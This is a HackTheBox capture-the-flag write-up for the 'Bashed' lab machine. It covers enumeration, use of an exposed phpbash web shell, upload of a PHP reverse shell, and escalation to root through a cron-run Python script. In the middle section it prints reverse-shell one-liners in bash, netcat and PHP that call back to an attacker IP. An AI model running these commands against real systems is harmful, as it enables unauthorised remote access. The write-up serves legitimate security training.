>  So, I just started with [HackTheBox](https://www.hackthebox.eu) and the whole idea is truly amazing to have online CTF for hackers all around the world to practise and hone their skills. Another shoutout to [IPPSEC](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA), the images used in this writeup are taken from his videos for better understanding.



This article is an easy to understand step by step process where I explain in detail one of the process of how to gain root access to the “bashed” machine.

## Let’s dive in!

Connecting to hackthebox machine and setting up OpenVPN you can watch it [here](https://www.youtube.com/watch?v=yB0_YVSaHiY). So, I won’t discuss more about it and get into the core part where we start opening the doors one by one. The main goal is to gain root access to the bashed linux box and for now we only know its IP address ( 10.10.10.68 ).

### Nmap

This is the first step that you will be carrying out in any CTF, where you need to hack into a machine as we need to figure out the ports i.e. gateways from where we can enter into the machine and Nmap is the best tool for it out there.

    nmap -sC -sV 10.10.10.168

The above command was the first one that I ran to figure out the ports that were open on the mahcine.



The port 80 was open, except that nothing was open. Port 80 is one of the most common ports that you will find open on the vulnerable machines.

### Website

So once we figure this out then I straight away opened the website, [http://10.10.10.68](http://10.10.10.68).



This is mostly the first step, as the website in itself will lead you onto different clues and hints to break into the vulnerable machine.

So once we open the website in our browser, we are presented with this page.

This webpage has a link to a page where there described about phpbash and an image of a web-based shell command prompt is present.



This page also provides us with a link to the [Github page of phpbash](https://github.com/Arrexel/phpbash) where the code for the phpbash was present.

The web-based shell gives us an idea that to hack the machine maybe we will need to launch the web shell that is being talked about.

### GoBuster

Now, the second step we take while we receive an open port 80 or 443 is to use GoBuster to carry out a detailed search about the subdomains that might be present on this machine as those lead us to our clue in the next step.



In the step to find out different subdomains we find a few listed above. We first visit the /uploads subdomain it was a blank white page.



Then we went onto /php subdomain it contained the following data, exposing the sendMail.php file.

Then we went onto the dev/ subdomain and there we came across the phpbash.php script which was a link to a web-based shell that was exposed for us to get into the next level to achieve root access.

### Web-Based Shell

The web-based shell gave us access to a command line to run our commands, this a big step as now we have a command line to work with.



So, as soon we got this shell, we will run our basic commands to figure out the extent of privileges we currently have.

The first command is “id” to know the details about the user. So we are currently a user named, www-data.

Now to check the privileges we have we will run a [script](https://netsec.ws/?p=309) to figure that out. To do that we need the script to be present on the vulnerable machine, so the first step will be to bring over the script from our machine to this machine.

First of all we download the required script on our machine and then send it over to the folder where we are storing data regarding the bashed machine. Once the script is present on that particular folder then we setup a httpServer so the contents of the folder will be available across the network.



Now, that we have setup the httpServer on our machine. We go back to the web-based shell on the vulnerable machine because as soon as the file is uploaded via the httpServer now we can download it on our machine using “curl” or “wget” commands.

Curl command wasn’t present on this machine, so we had to use wget to download the file over to the vulnerable machine.

    var/www/html/dev# wget 10.10.14.30/LinEnum.sh

The permission was denied when the above command was carried out from the given folder, we then to the /dev/shm directory and the above command worked.

Once, we had the LinEnum.sh file we executed it to figure out the privileges and other details regarding the current user.

    var/www/html/dev/shm# bash LinEnum.sh

We obtained the following results:

* The linux version is updated so there were extremely less chances of finding any vulnerability here.

* Currently our userid is (www-data), there is another user by the name of scriptmanager.

* We can use sudo without a password & scriptmanager can run anything.

* The web shell that we have currently is not persistent.
>  To check this out, we run the command

    sudo -u scriptmanager bash
>  and

    python -c ‘import pty;pty.spwan(“/bin/bash”)’ 
>  but still we are www-data

So, the web shell that we have obtained wasn’t persistent and we needed to obtain a persistent shell so we had to execute a reverse shell.

### [Pen-Test Monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

To make a reverse shell connection to the vulnerable machine we go to the cheat sheet list that is presented by the Pen-Test Monkey. It is an extremely useful tool.

The first step is to setup a listener on our machine, where the reverse shell would pop up. So, once the listener is up we pass several commands in the web-based shell in the vulnerable machine to initiate the reverse shell (don’t forget to change the IP address & port number).



**Bash**

    bash -i >& /dev/tcp/10.10.14.38/8081 0>&1

**Netcat**

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.38 8081 >/tmp/f

**PHP**

    php -r '$sock=fsockopen("10.10.14.38”,8081);exec("/bin/sh -i <&3 >&3 2>&3");'

After all these attempts we are still unable to launch a reverse shell. Then we try to upload a php reverse shell. Earlier when we were using GoBuster we came across a domain /uploads. We go to the particular directory in the vulnerable machine and try creating a file and see if we have the permission to do so, we type in the command

    var/www/html/uploads# touch test

We opened the browser to check if the URL [http://10.10.10.68/uploads/test](http://10.10.10.68/uploads/test) works or not and lucky for us it worked.

Then we copy over the php-reverse-shell.php file to our folder where we stored the LinEnum.sh files and using wget we download the php file in the vulnerable machine as we did before. We make the required changes to the php file, like changing the IP address and the port number to listen on.



We transfer the php-reverse-shell.php file to the uploads folder and then we visit the URL [http://10.10.10.68/uploads/php-reverse-shell.php](http://10.10.10.68/uploads/php-reverse-shell.php) on the browser. As soon as we visit this website the reverse shell pops up on our machine.



### Kali Machine

We are back on our Kali machine where the reverse shell just spawned. We again carry out the basic commands to check what is the user privilege we have, if the shell is persistent or not. So the shell is persistent and we are still www-data.

To change ourselves from www-data to scriptmanager we run the following commands

    $ sudo -u scriptmanager bash

After executing the above command we again check which user we are and now we are scriptmanager.

Now we do an “ls -la” to see over which files and folders the scriptmanager has read, write or execute privileges. There is a folder named scripts with privileges assigned to the scriptmanager, we go inside it and again carry out “ls -la” to get the details about the files present in the scripts folder.





There are two files one of them is test.py which is under scriptmanager and the other file test.txt is under root, so we know now that we have to work with these two files now.

We open the test.py and then analyse the code written within it, the code written in the test.py states to print “testing 123!” in the test.txt file. There is one thing that is hard to notice but the test.txt file is updated every minute, we figure this when we carry out the “ls -la” command and see that every minute the test.txt file is updated.

This establish that there is a link between the test.py and test.txt and so whatever code we execute inside test.py those changes will take place as if changes are being made by a root user.

From pen-test monkey we copy a python script to launch a root shell on the vulnerable machine ( format it properly and make changes in the IP address and port number before saving )

Let the code run by itself or just type in “python test.py” and you should get a reverse shell, check the id and you should be root.



And so that is how the bashed machine is hacked.

## Moral

Be familiar with the tools you use, make a clear mental list of the steps you need to take at every step. Don’t give up, that is one thing you will need a lot of while doing these CTFs and try to do them all by yourselves. It is tough in the beginning then you will slowly start to pick up steps along the way.

